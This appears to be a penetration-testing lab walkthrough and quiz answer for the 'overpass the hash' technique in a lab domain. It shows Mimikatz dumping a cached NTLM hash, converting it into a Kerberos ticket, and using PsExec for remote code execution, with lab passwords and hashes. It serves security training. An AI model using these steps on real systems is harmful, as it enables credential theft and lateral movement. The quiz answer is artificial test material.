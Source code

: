 Topics: Overpass the Hash
# Questions
Start VM Group 1 and repeat the steps discussed in this section. Which command is used to inspect the current TGT available for the running user?
# Answer
klist

# With overpass the hash, we can "over" abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).

# Login to Windows 10 CLIENT76 machine as jeff and run a process as jen which prompt authentication
# The simplest way to do this is to right-click the Notepad icon on the desktop then shift left-click "show more options" on the popup, yielding the options. 

xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.195.76

# Enter jen as the username along with the associated password, which will launch Notepad in the context of that user. 
jen:Nexus123!

# We can validate this by opening an Administrative shell and using mimikatz with the sekurlsa::logonpasswords command. The command will dump the cached password hashes.
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
* Username : jen
* Domain   : CORP
* NTLM     : 369def79d8372408bf6e93364cc93075
...

# The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is with the sekurlsa::pth command from Mimikatz.

# The command requires a few arguments and creates a new PowerShell process in the context of jen. This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash.

mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 

# At this point, we have a new PowerShell session that allows us to execute commands as jen.
# Let's list the cached Kerberos tickets with klist.
PS C:\Windows\system32> klist
Current LogonId is 0:0x1583ae
Cached Tickets: (0)

# No Kerberos tickets have been cached, but this is expected since jen has not yet performed an interactive login. Let's generate a TGT by authenticating to a network share on the files04 server with net use.
PS C:\Windows\system32> net use \\files04

PS C:\Windows\system32> klist
...
        Server: krbtgt/CORP.COM @ CORP.COM
        Server: cifs/files04 @ CORP.COM
...

# The output has the Kerberos tickets, including the TGT and a TGS for the Common Internet File System (CIFS) service. We know that ticket #0 is a TGT because the server is krbtgt.

# We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM). Here we will use the official PsExec application from Microsoft.

# PsExec can run a command remotely but does not accept password hashes. Since we have generated Kerberos tickets and operate in the context of jen in the PowerShell session, we can reuse the TGT to obtain code execution on the files04 host.
PS C:\Windows\system32> cd C:\Tools\SysinternalsSuite\
PS C:\Tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

C:\Windows\system32>whoami
corp\jen
C:\Windows\system32>hostname
FILES04

